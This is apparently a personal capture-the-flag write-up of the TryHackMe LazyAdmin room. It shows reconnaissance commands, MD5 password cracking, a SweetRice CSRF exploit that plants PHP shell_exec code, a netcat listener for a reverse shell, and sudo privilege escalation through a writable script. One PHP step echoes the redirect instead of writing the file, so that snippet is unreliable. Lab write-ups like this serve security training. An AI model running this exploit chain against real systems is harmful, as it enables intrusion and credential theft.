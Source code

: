 I recently re-sparked my interest for InfoSec and started dabbling with a couple of hacking platforms and war games and stumbled over [TryhackMe](https://www.tryhackme.com), which so far has been an absolutely fantastic learning resource for information security.

This post marks my first CTF write up, so if you stumble over this, keep this in mind and if you have suggestions for improving the flow of the post, or the general content, feel free to send me en email about that!

With all of that out of the way, let's jump into the [LazyAdmin](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe.

## Lazy Admin

To start off, we'll use `nmap` to find out which ports are running:

```bash
nmap  -vv -sV -sC <IP> -A -T4
```

We get the ports 22 and 80. Next, let's try to navigate to the website on port 80. There we see the basic Apache welcome page.

To see what else is running on this web server, let's use `gobuster` to find other files and directories

```bash
gobuster -u http://<IP>/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This uses the [SecLists](https://github.com/danielmiessler/SecLists) repo's `Web-Content/big.txt` wordlist and we'll initially try for .php, .txt and .html files.

The first run gives us the `/content` folder and if we navigate there in our browser, we see an in-progress SweetRice CMS page.

At this point, it makes sense to go to [Exploit DB](https://www.exploit-db.com/) and search for SweetRice. There are several interesting CVE's, but we don't know the version yet.

Let's run `gobuster` again, to find resources inside of `content`:

```bash
gobuster -u http://<IP>/content/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This gives us several things, such as the `/as` folder and the `/inc` folder. Under `/as` we find an administrator login, which is what we were looking for. Inside the `/inc` folder, interestingly, we find MySQL backup, which we immediately download.

Also, there are license.txt and changelog files and folders, which provide us with some info about the version - we're dealing with 1.5.0, so we can use the latest exploits on Exploit-DB!

Opening the downloaded MySQL backup, we stumble upon the password and the user name.

We can use `john the ripper` to crack the password, which looks like MD5:

```bash
john pw.txt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-MD5
```

We use the `rockyou` password list and immediately get the resulting password.

With that, we can login to the Admin page! Nice.

Next, let's check out the exploits at Exploit DB. There, we find [this](https://www.exploit-db.com/exploits/40700) exploit, which enables us to do PHP code execution via a CSRF bug.

This sounds promising, as with remote code execution, we should be able to read out the user and root flag from the server, or simply open a reverse shell, letting us basically connect to the server via ssh.

If we look at the exploit on Exploit-DB, it looks like the following:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://<IP>/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hacked"/>
            <textarea type="hidden" name="adv">
                ... add php code here ...
            </textarea>;
        </form>
    </body>
</html>
```

We create a new .html file and paste this code in. However, instead of the `Hacked` message, we can use the `shell_exec` method to execute shell commands on the server, so we replace it with:

```php
$output = shell_exec('ls /home');
echo "<pre>$output</pre>";
```

This directs us to the Ads page in the SweetRice backend, with a new ad active. If we now access this using `http://<IP>/content/inc/ads/hacked.php` in this case, then we see the executed PHP code, which shows us the contents of `/home`.

This way, we can see that the username is `itguy`. Next we can `ls /home/itguy` to see the files inside of the user's folder. There, we can already get the user flag using `cat /home/itguy/user.txt`.

With this exploit, we could also execute a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), which together with a locally opened netcat session (`nc -lvnp 4444`) enables us to gain access to the server.

In this case, we'll just continue to execute commands using the exploit though. The next thing we need to do is to privilege-escalate. We execute `sudo -l` and see, that the `www-data` user, which is the user running the web app, can execute the `backup.pl` file.

Next, we can look at the file using `cat /home/itguy/backup.pl` and we see that it simply calls `/etc/copy.sh`, which is a file we have access to. Now we have a way to get to the root flag - we overwrite the `/etc/copy.sh` file with a script for reading out the `/root/root.txt` file and we can do all of that in our CSRF exploit:

```php
echo "<pre>$output</pre>";
$output1 = shell_exec('echo "cat /root/root.txt > /etc/copy.sh"');
echo "<pre>$output1</pre>";
$output2 = shell_exec('sudo /usr/bin/perl /home/itguy/backup.pl');
echo "<pre>$output2</pre>";
```

When we execute the exploit again, we get the root flag.

All Done!

## Conclusion

What a nice entry-level CTF and one of the first unguided ones I was able to, after going through almost all entry-level THM rooms mentioned [here](https://tryhackme.com/resources/blog/free_path) before, finish without looking at any writeups, or any external help myself!

#### Resources

* [TryHackMe LazyAdmin](https://tryhackme.com/room/lazyadmin)
